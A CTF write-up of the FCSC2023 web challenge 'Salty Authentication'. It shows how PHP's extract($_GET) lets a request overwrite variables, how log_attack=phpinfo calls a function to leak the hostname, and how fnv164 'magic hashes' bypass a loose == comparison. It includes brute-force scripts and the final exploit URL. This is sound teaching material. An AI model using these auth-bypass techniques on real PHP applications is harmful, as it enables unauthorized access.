```yaml
---
title: CTFs | FCSC2023 | Web | Salty Authentication
author: Stillwolfing
date: 2023-05-05
categories: [CTFs, FCSC2023, Web]
tags: [CTF, FCSC, Web, magic hash, type juggling]
permalink: /CTFs/FCSC2023/web/salty_authentication
---
```


Here is the context:

![context](/assets/img/CTFs/FCSC2023/web/salty_authentication/context.png)

I did not solved this challenge during the CTF, but I solved it after.

Here is the main page:

![main_page](/assets/img/CTFs/FCSC2023/web/salty_authentication/main_page.png)


We are presented the php code of the page:

```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The flag is included from flag.php.

### The flag

```php
if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    }
```

To reveal the flag, we need to have the hash of the secret equal to the hash of the password.

We can define some variables in the url thanks to the extract($_GET). So, we can define the $password variable.

First we have to pass this test:

```php
if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret)
```

We can see that $password has to be set. It has to be the same length as $secret. And it has to be different from $secret.

As $password has to be different from $secret, we cannot use the same string for both. So, we have to find a hash collision (different values, same hash).


$secret is the concatenation of the hostname and the salt which is a random string of 12 bytes.

## Hostname length

The first thing that came to my mind is to use ```extract($_GET)``` to rewrite the $salt variable. Unfortunately, we cannot rewrite the $secret variable as it is defined after the extract.

With this, we can pass the first test by finding the length of the hostname.

To do this, we rewrite the $salt variable as an empty string. Then, we add a character to the $password variable until we get the "Wrong password!" message.

```python

import requests
import time

password = ""
salt=""
counter = 0

while 1:
    counter += 1
    password += "1"
    print(counter)

    url = f"https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password={password}"

    r = requests.get(url)

    if "Wrong password!" in r.text:
        print(f"Hostname length: {counter}")
        break
    
    time.sleep(5)
```

Output:
![hostname_length](/assets/img/CTFs/FCSC2023/web/salty_authentication/hostname_length.png)

The hostname length is 12.

## Hostname

Now we need to find the hostname. What we can notice is this:

```php
else {
        echo('Wrong password!');
        exit($log_attack());
}
```

If the hashes are different, we get the "Wrong password!" message. And the $log_attack() function is called.

As log_attack is a variable, we can rewrite it with extract($_GET). So, we can define the $log_attack() function called when the hashes are different.

Let's call phpinfo to get the hostname:

url: https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=123456789012&log_attack=phpinfo

Output:
![phpinfo](/assets/img/CTFs/FCSC2023/web/salty_authentication/phpinfo.png)

We've got the hostname: 9be4a60f645f

## Type juggling

The == operator is used to compare the hashes. It's a weak comparison. It's a type juggling comparison.

With this operator, if a comparaison is made between a string and an integer, the string is converted to an integer.

So, if the string begins with "0e", it will be converted to 0. It's a magic hash!

[type juggling article](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

[magic hashes article](https://github.com/spaze/hashes)

## Magic hash

Let's try to find a magic hash for the secret. The secret has to begin with the hostname then we can use the salt to change the value.

Code to find a magic hash:

```php
<?php

$counter =0;
while(1){
    $salt = bin2hex(random_bytes(6));
    $secret = "9be4a60f645f" . $salt;
    $counter+=1;
    $hash = hash('fnv164',$secret);

    if ($hash==0) {
        echo ("secret: ".$secret."\n");
        echo ("salt: ".$salt."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![salt](/assets/img/CTFs/FCSC2023/web/salty_authentication/salt.png)

Now let's find a magic hash for the password with the same length:

```php
<?php

$counter =0;
while(1){
    $password = bin2hex(random_bytes(12));
    $counter+=1;
    $hash = hash('fnv164',$password);

    if ($hash==0) {
        echo ("password: ".$password."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![password](/assets/img/CTFs/FCSC2023/web/salty_authentication/password.png)

Ok so if put salt="70f9186fa35c" and password="8215d358c2d73169d5895016", the secret and the password will have the same length while having different values so we can pass the first test.

As both hashes begins with "0e", they will be converted to 0. So, the hashes will be equal and we will get the flag.

```bash
curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=70f9186fa35c&password=8215d358c2d73169d5895016"
```

We get the flag!
![flag](/assets/img/CTFs/FCSC2023/web/salty_authentication/flag.png)

